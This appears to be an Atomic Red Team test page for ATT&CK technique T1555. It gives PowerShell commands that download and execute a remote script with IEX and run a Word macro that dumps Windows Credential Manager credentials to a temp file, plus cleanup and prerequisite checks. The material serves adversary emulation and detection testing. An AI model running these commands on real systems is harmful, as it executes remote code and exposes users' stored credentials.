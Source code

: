 # T1555 - Credentials from Password Stores
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555)
<blockquote>Adversaries may search for common password storage locations to obtain user credentials. Passwords are stored in several places on a system, depending on the operating system or application holding the credentials. There are also specific applications that store passwords to make it easier for users manage and maintain. Once credentials are obtained, they can be used to perform lateral movement and access restricted information.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Extract Windows Credential Manager via VBA](#atomic-test-1---extract-windows-credential-manager-via-vba)


<br/>

## Atomic Test #1 - Extract Windows Credential Manager via VBA
This module will extract the credentials found within the Windows credential manager and dump
them to $env:TEMP\windows-credentials.txt

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1555\src\T1555-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\windows-credentials.txt" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "word.Application" | Out-Null
  Stop-Process -Name $process
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
